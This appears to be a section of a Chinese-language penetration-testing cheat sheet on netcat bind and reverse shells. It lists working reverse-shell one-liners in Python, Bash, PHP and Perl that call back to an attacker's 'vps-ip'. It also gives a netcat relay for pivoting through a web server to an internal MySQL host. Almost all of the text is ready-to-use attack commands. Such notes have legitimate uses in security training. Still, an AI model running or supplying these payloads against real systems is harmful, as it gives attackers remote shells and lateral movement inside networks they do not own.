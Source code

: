 ```ssh
>正向shell:    客户端       ---->    服务器的shell  //客户端获取服务器的shell
客户端(192.168.1.114):
        nc 10.10.10.115 4444
服务器(10.10.10.115):
     nc -lvp 4444 -e /bin/sh    //linux
     nc -lvp 4444 -e c:\windows\system32\cmd.exe  //windows

>反向shell：  客户端的shell <----    服务器       //服务器获取客户端的shell
服务器(10.10.10.115)：
    nc -lvp 9999
客户端(192.168.1.114):
    nc 10.10.10.115 9999 -e /bin/sh  //linux
    nc 10.10.10.115 9999 -e c:\windows\system32\cmd.exe   //windows
```
#### 2.3.2.3. 获取反向shell
```ssh
vps: nc -lvp 2222

>-----python反向shell-------
python -c '
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("vps-ip",2222));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
'

>-----------Bash反向shell---------
bash -i >& /dev/tcp/vps-ip/4444 0>&1

>-----------PHP反向shell---------
php -r '
$sock=fsockopen("vps-ip",2222);
exec("/bin/sh -i <&3 >&3 2>&3");
'
>----------Perl反向shell--------
perl -e '
use Socket;
$i="192.168.1.117";$p=4444;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
    };
'
>
```
#### 2.3.2.4. Netcat内网代理
```ssh
---------------------------------------------------------------
VPS(192.168.1.4)            Web Server(192.168.1.1/1.1.1.116)
                            MySQL Server(1.1.1.200)
----------------------------------------------------------------
step1:
vps: nc -lvp 3333
step2:
MySQL:nc -lvp 3333 -e /bin/sh
step3:
Web  :nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"
```